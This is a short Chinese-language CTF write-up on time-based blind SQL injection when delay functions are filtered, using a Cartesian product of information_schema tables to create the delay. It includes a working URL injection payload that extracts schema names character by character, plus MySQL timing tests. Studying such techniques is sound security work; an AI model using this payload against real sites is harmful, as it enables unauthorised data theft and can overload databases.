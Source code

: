 ```yaml
---
title: 笛卡尔积延时注入
date: 2017-11-15 10:18:33
categories: CTF
tags: 
- blind injection
---
```


题目过滤了各种延时函数，当时也考虑过使用某种循环查询产生类似延时的效果，奈何水平不够。看了大佬的WP学到了用笛卡尔积产生延时效果orz

payload
```
/?id=1 union select * from OPENQUERY([mysql],'select if(ord(mid((select SCHEMA_NAME frOm iNfOrmAtiOn_schEma.SCHEMATA limit 3,1),1,1))=97,(SELECT count(*) FROM information_schema.columns A, information_schema.columns B,information_schema.columns C),0)')
```

使用
```
SELECT * from database.tableA,database.tableB
```
就会对tableA,B进行笛卡尔运算。
例如：
tableA：

id | user
--|----
1|a
2|b

tableB：

uid|name
--|---
3|c
4|d

笛卡尔运算的结果：

id | user| uid | name
---|-----|-----|----
1  |a    |3    |c
1  |a    |4    |d
2  |b    |3    |c
2  |b    |4    |d 

实际测试发现使用`information_schema.columns`不稳定，因为对于不同的数据库，`columns`的数量是不同的，太少起不了延时效果，太多可能会导致数据库崩溃。
使用`character_sets`（41行）和`collations`（222行）效果可能会好点，因为数据量相对计较统一。
```
mysql> SELECT count(*) FROM information_schema.plugins ,information_schema.plugins A,information_schema.collations ,information_schema.collations B;
+----------+
| count(*) |
+----------+
| 95413824 |
+----------+
1 row in set (4.58 sec)
```
同名表后面跟着的`A`,`B`是别名，不然选取同一个表会报错
```
mysql> SELECT * from information_schema.plugins,information_schema.plugins;
ERROR 1066 (42000): Not unique table/alias: 'plugins'
```